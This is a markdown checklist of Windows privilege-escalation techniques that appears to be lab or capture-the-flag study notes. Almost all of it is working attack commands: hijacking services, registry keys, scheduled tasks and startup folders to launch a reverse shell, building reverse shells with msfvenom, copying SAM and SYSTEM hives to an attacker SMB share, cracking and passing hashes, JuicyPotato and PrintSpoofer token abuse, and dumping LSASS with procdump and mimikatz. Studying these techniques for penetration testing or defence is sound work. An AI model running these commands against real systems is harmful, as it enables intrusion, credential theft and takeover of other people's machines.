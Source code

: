 # Checklist

* **Insecure Service Permissions**
  * [ ] collect all service have Write permission `accesschk.exe /accepteula -uwcqv <userAccount> * > services.txt`
  * [ ] search on permission for services u collected `sc qc <ServiceName>`
  * [ ] note u have `SERVICE_START_NAME` and `SERVICE_CHANGE_CONFIG` to edit binary path and restart service
  * [ ] edit binary path for service `sc config <serviceN> binpath= "\"C:\PrivEsc\reverse.exe\""`
  * [ ] then start service again `net start <ServiceName>`
*   **Unquoted Service Path**

    when you check service permission we will notice path of this service have spaces and doesn’t have any quotes

    * [ ] to check this misconfiguration`sc qc unquotedsvc`
    * [ ] check write permission on path for this service `accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\”`
    * [ ] copy reverse shell to this Dir `copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe”`
    * [ ] restart service `net start unquotedsvc`
* **Weak Registry Permissions**
  * [ ] `sc qc regsvc`
  *   [ ] check service permission in register `accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc`

      we found have writable perm by "NT AUTHORITY\INTERACTIVE" group (essentially all logged-on users)
  * [ ] edit ImagePath registry key to point to the reverse.exe `reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f`
  * [ ] `net start regsvc`
* **Insecure Service Executables**
  * [ ] `sc qc filepermsvc` - note that it runs with SYSTEM privileges (SERVICE\_START\_NAME)
  * [ ] check permission for this service `accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe”` we found file is writable by everyone
  * [ ] replace reverse shell with program `copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y`
  * [ ] `net start filepermsvc`
* **AutoRuns**
  * [ ] collect auto run app `reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`
  * [ ] check writable for everyone `C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"`
  * [ ] replace current program with reverse shell
*   **AlwaysInstallElevated**

    any program will be run with system priv

    *   [ ] check always two registry for AlwaysInstallElevated keys enabled

        `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`

        `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`
    * [ ] create a reverse shell `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi`
    * [ ] run reverse shell `msiexec /quiet /qn /i C:\PrivEsc\reverse.msi`
* **Passwords - Registry**
  * [ ] search for password in register `reg query HKLM /f password /t REG_SZ /s`
  * [ ] find admin AutoLogon credentials `reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"`
  * [ ] spawn cmd with admin privilege `winexe -U 'admin%password' //10.10.179.163 cmd.exe` or `runas /user:userName cmd`
* **Passwords - Saved Creds**
  * [ ] list saved cred `cmdkey /list`
  * [ ] run shell with saved credential `runas /savecred /user:admin C:\PrivEsc\reverse.exe`
* **Passwords - Security Account Manager (SAM)**
  *   [ ] search on any backup for SAM file `dir C:\ /s /b | findstr /i "\SAM"`

      we can find SAM file in 2 path `c:\Windows\System32\config\SAM` other for backup `C:\Windows\Repair\SAM`
  *   [ ] we found we have RW perm for backup file

      `copy C:\Windows\Repair\SAM \\10.10.10.10\kali\`

      `copy C:\Windows\Repair\SYSTEM \\10.10.10.10\kali\`
  * [ ] extract hashes `python3 creddump7/pwdump.py SYSTEM SAM`
  * [ ] crack hash `hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.txt`
* **Passwords - Passing the Hash**
  * [ ] `pth-winexe -U 'admin%hash' //10.10.130.136 cmd.exe`
  * [ ] `crackmapexec smb 10.10.130.136 -u admin -H <NTLM_HASH> --exec 'whoami'`
* **Scheduled Tasks**
  * [ ] discover folders like `C:\DevTools\` , `C:\ProgramData\`, `C:\Windows\Tasks\` , `C:\Users\Public\`
  * [ ] view the content of file `type C:\DevTools\CleanUp.ps1`
  * [ ] when check we found have write perm `accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1` or using `icacls C:\DevTools\CleanUp.ps1` we found have Modify perm
  * [ ] modify the content of file `echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1`
*   **Insecure GUI Apps**

    exploit program run with admin priv

    * [ ] check priv of program in tasklist after run it `tasklist /V | findstr mspaint.exe`
*   **Startup Apps**

    exploit Write privilege in startup folder to take the same privilege for logged user

    * [ ] check priv `accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp”`
    *   [ ] create a shortcut (.lnk) refer to reverse shell in startup folder

        `cscript C:\PrivEsc\CreateShortcut.vbs`
    * [ ] login with admin credential
*   **SeImpersonatePrivilege**

    exploit local service account - SeAssignPrimaryTokenPrivilege

    * [ ] check this privilege is enabled `whoami /priv`
    * [ ] create reverse shell `msfvenom -p cmd/windows/reverse_powershell lhost=10.10.14.212 lport=1111 > 1.bat`
    * [ ] exploit `.\JuicyPotato.exe -l 5337 -p C:\Users\Public\1.bat -t * -clisd "{7A6D9C0A-1E7A-41B6-82B4-C3F7A27BA381}"`
*   **SeImpersonatePrivilege - 0X1**

    exploit local service account - SeImpersonatePrivilege

    * [ ] check this privilege is enabled `whoami /priv`
    * [ ] exploit it using PrintSpoofer `PrintSpoofer.exe -c "C:\PrivEsc\reverse.exe" -i`
* **SeDebugPrivilege**
  * [ ] check privilege is found `whoami /priv` we found SeDebugPrivilege but it’s disable
  *   [ ] use ProcDump to dump hashes from LSASS if it’s disabled

      `procdump.exe -accepteula -ma lsass.exe lsass.dmp`
  * [ ] Access Hashed using mimikatz `log` , `sekurlsa::minidump lsass.dmp` , `sekurlsa::logonpasswords`
  * [ ] \[ ]
*   **SeTakeOwnershipPrivilege**

    This privilege assigns WRITE\_OWNER rights over an object, that’s meaning user can change owner in Security Descriptor for this object

    * [ ] check privilege `whoami /priv` we found SeTakeOwnershipPrivilege
    * [ ] Enabling `Import-Module .\Enable-Privilege.ps1` , `.\EnableAllTokenPrivs.ps1`
    * [ ] choose any file u can’t access it
    * [ ] check file ownership `Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}`
    * [ ] if not found try folder ownership `cmd /c dir /q 'C:\Department Shares\Private\IT'`
    * [ ] take ownership for file `takeown /f 'C:\Department Shares\Private\IT\cred.txt'`
    * [ ] Modifying the File ACL `icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F`
    *   [ ] files interests

        ```
        c:\inetpub\wwwwroot\web.config
        %WINDIR%\repair\sam
        %WINDIR%\repair\system
        %WINDIR%\repair\software, %WINDIR%\repair\security
        %WINDIR%\system32\config\SecEvent.Evt
        %WINDIR%\system32\config\default.sav
        %WINDIR%\system32\config\security.sav
        %WINDIR%\system32\config\software.sav
        %WINDIR%\system32\config\system.sav
        ```
